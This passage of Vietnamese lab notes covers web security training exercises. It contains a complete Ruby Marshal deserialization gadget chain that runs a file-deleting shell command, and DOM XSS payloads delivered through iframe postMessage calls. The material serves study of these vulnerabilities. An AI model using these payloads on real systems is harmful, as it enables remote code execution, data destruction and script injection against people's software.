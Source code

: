 ```ruby
wa1 = Net::WriteAdapter.new(Kernel, :system)

rs = Gem::RequestSet.allocate
rs.instance_variable_set('@sets', wa1)
rs.instance_variable_set('@git_set', "rm /home/carlos/morale.txt")

wa2 = Net::WriteAdapter.new(rs, :resolve)

i = Gem::Package::TarReader::Entry.allocate
i.instance_variable_set('@read', 0)
i.instance_variable_set('@header', "aaa")


n = Net::BufferedIO.allocate
n.instance_variable_set('@io', i)
n.instance_variable_set('@debug_output', wa2)

t = Gem::Package::TarReader.allocate
t.instance_variable_set('@io', n)

r = Gem::Requirement.allocate
r.instance_variable_set('@requirements', t)

payload = Marshal.dump([Gem::SpecFetcher, Gem::Installer, r])
puts Base64.encode64(payload)
```

# DOM-based vulnerabilities (5 bài)

## DOM XSS using web messages

Context: Dùng hàm `addEventListener()` để lắng nghe message.

Nó sẽ lắng nghe để gắn quảng cáo vào trang web. 

Tạo 1 iframe ở server exploit, iframe này dẫn đến trang web cần exploit và có gửi thêm message, 

payload:

`<iframe src="https://0a3e00fa03d89772812011d8009c002a.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=print()>','*')">`

## DOM XSS using web messages and a JavaScript URL

Context: Dùng hàm `addEventListener()` + sink: `location.href` + URL cần có `http/https`

Payload: `<iframe src="https://0a60005c0338391482ef47cf007b003b.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">`

## DOM XSS using web messages and JSON.parse
